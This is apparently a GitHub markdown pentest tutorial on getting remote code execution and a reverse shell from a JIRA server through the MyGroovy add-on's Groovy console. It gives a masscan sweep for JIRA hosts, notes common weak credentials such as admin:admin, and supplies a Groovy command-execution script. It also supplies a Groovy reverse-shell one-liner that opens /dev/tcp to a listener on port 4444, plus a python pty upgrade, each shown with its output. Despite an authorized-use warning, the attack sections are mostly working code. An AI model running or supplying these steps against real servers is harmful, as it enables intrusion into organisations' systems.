


# 💥 Reverse shell from JIRA



Remote code execution — and a fully interactive reverse shell — from a JIRA application server, using the **MyGroovy** add-on's Groovy console.

---

### 🎯 About

Since I haven't found any well explained articles on how to get a reverse shell from a JIRA web application server, I thought it could be a good idea to cover this subject with the pentesters community.

JIRA Software is a powerful platform that combines issue collection and agile project management capabilities into a single application. Using JIRA helps you plan and organize tasks, workflows, and reports for your agile team more efficiently.

I've seen many environments in my career where the JIRA web application is installed without or with poor credentials — an fact some admins ignore: we can get remote code execution on this web app.

---

### 🧭 Contents

- [0x00 · Introduction on JIRA](#0x00)
- [0x01 · Locate the JIRA servers on the LAN](#0x01)
- [0x02 · Getting Remote Code Execution from JIRA](#0x02)
- [0x03 · Let's get a reverse shell](#0x03)
- [0x04 · Conclusion](#0x04)

---

> [!WARNING]
> **Authorized use only.** This document is for **educational purposes and authorized security testing** (penetration tests, CTFs, your own systems). Do not run these techniques against systems you do not own or have explicit written permission to assess. Unauthorized access to computer systems is illegal.

---

## 0x00 · Introduction on JIRA

<p align="center"></p>

JIRA Software is a powerful platform that combines issue collection and agile project management capabilities into a single application. Using JIRA helps you plan and organize tasks, workflows, and reports for your agile team more efficiently.

I've seen many environments in my career where the JIRA web application is installed without or with poor credentials which maybe some admins ignore the fact that we can get remote code execution on this web app. Even in 2026, we can still see servers running with credentials like `admin:admin`, `admin:123456`, `test:test` — which means there is still a big learning curve for our admins and users.

---

## 0x01 · Locate the JIRA servers on the LAN

<p align="center"></p>

Usually, JIRA servers are configured by default to run on port 8080, but I've seen many times where the bind port was changed to 80 (HTTP) or 443 (HTTPS).

For discovering what is on the LAN, I would choose **masscan**:

→ https://github.com/robertdavidgraham/masscan

Let's say that you are inside a local area network with the subnet `192.168.255.0` and your local IP address is `192.168.123.45` and wish to perform a complete network scan to discover those JIRA servers. The syntax for running masscan I would use would be:

```bash
./masscan 192.168.0.0-192.168.255.255 -p80,443,8080 -oL JIRA.where-are-you.txt --max-rate 10000 --open --banners -sS -Pn -n --randomize-hosts -v --send-eth
```

After masscan finished scanning the LAN, you will see output results inside of the file `JIRA.where-are-you.txt`. JIRA should look like this in your web browser:

<p align="center"></p>

---

## 0x02 · Getting Remote Code Execution from JIRA

<p align="center"></p>

You are probably saying OK, I'm logged in on JIRA, now what?

You have to know that JIRA supports the **Groovy** language. Groovy is a powerful, optionally typed and dynamic language, with static-typing and static compilation capabilities, for the Java platform aimed at improving developer productivity thanks to a concise, familiar and easy to learn syntax. It integrates smoothly with any Java program, and immediately delivers to your application powerful features, including scripting capabilities, Domain-Specific Language authoring, runtime and compile-time meta-programming and functional programming.

We will use the add-on **MyGroovy** in order to execute our script to execute shell commands. To do so, go to the **Administration** button (top-right) and choose **Add-ons**. It will ask again for your credentials. In the search field, type *MyGroovy*, press Enter and click on the **Install** button. After the installation, go on the left menu and click on **MyGroovy console**. You should see this in your web browser:

<p align="center"></p>

Are you ready for RCE? In the console box, type the following and click on **Execute** button after:

```groovy
def command = '''
    touch /tmp/jira-RCE
'''
def proc = ['bash', '-c', command].execute()
proc.waitFor()
println proc.text
```

Let's see if we had success with our script...

```text
root@blackb0x:/root# ls -al /tmp/
drwxrwxrwt 12 root   root    32768 Dec  2 01:32 .
drwxr-xr-x  25 root   root     4096 Nov 25 12:57 ..
-rw-r-----  1 jira   jira        0 Dec  2 01:32 jira-RCE
```

Easy like that.

---

## 0x03 · Let's get a reverse shell

<p align="center"></p>

To finalize this assessment, I believe a cool way would be to obtain a reverse shell from JIRA. In order to get a reverse shell, we will type again in the console box of the **MyGroovy** add-on the following script, assuming your netcat listener is `192.168.2.100` on port `4444`:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.2.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Click on the **Execute** button and see if you get a reverse shell in your netcat. You should get something similar to that output:

```text
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.2.37] port 4444 [tcp/*] accepted (family 2, sport 32939)
```

Reverse shell is OK, but what about a fully interactive PTY shell? Sure, let's get that interactive PTY shell. In your netcat listener with the current reverse shell, type first:

```bash
/bin/bash -i
```

and after obtaining something like

```text
bash: no job control in this shell
jira@blackb0x:/opt/atlassian/jira/bin$
```

type:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Here is your fully interactive PTY shell.

---

## 0x04 · Conclusion

Running a Java Web Application with no or poor credentials exposed to the internet might not be a good idea. As shown above, it could potentially get our network compromised.

What is the biggest threat to data security? I would say, in one word: **humans**. Even in 2026, we can still see servers running with credentials like `admin:admin`, `admin:123456`, `test:test` — which means there is still a big learning curve for our admins and users.

If you have any questions on that subject, don't hesitate to contact me.

<p align="center"></p>

---

**E-mail:** semtex@mailfence.com
